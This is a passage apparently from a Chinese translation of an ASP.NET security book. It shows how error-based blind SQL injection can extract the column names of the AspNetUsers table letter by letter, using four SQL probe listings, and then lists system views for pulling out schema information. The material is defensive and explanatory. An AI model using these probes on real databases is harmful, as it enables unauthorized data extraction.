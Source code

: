 ```
SELECT TOP 1 CASE WHEN SUBSTRING(COLUMN_NAME, 2, 1) = 'a'
  THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%'
ORDER BY COLUMN_NAME

Listing 5-9A query to see if the first column that starts with “A” has a second letter “a”

```

正如您在清单 [5-9](#PC9) 中看到的，黑客不是通过分组来查看是否存在任何列，而是通过按列名排序并只选择前 1 列来锁定第一列。然后，他们检查该列的第二个字符是否以字母“a”开头。如果是这样，查询将返回一个有效的整数，并且查询不会引发错误。如果没有，就会出现错误，告诉黑客他们猜错了。因为“AccessFailedCount”的第二个字母是“c ”,所以会出现错误。但是黑客可以继续。

```
SELECT TOP 1 CASE WHEN SUBSTRING(COLUMN_NAME, 2, 1) = 'b'
  THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%'
ORDER BY COLUMN_NAME

Listing 5-10A query to see if the first column that starts with “A” has a second letter “b”

```

在清单 [5-10](#PC10) 中，黑客检查第二个字符是否是“b”。它不是，所以继续前进。

```
SELECT TOP 1 CASE WHEN SUBSTRING(COLUMN_NAME, 2, 1) = 'c' THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'A%'
ORDER BY COLUMN_NAME

Listing 5-11A query to see if the first column that starts with “A” has a second letter “c”

```

在我们的场景中，清单 [5-11](#PC11) 中的代码执行时没有错误，因此我们知道该列以“Ac”开头。是时候移动到下一个角色了，如清单 [5-12](#PC12) 所示。

```
SELECT TOP 1 CASE WHEN SUBSTRING(COLUMN_NAME, 3, 1) = 'a'
  THEN 1 ELSE 200000000000 END AS ColumnName
FROM INFORMATION_SCHEMA.COLUMNS
WHERE table_name = 'AspNetUsers' AND COLUMN_NAME LIKE 'Ac%'
ORDER BY COLUMN_NAME

Listing 5-12A query to see if the first column that starts with “Ac” has a third letter “a”

```

可以对每个数据库、表、列甚至数据库中的数据重复这个过程，以便在您不知道的情况下提取所有数据和所有模式。以下是您可以查询的数据库对象，以便从数据库中提取有关数据库模式的信息:

*   **数据库**:从系统数据库中选择【名称】

*   **Schemas** :从 sys.schemas 中选择[name]
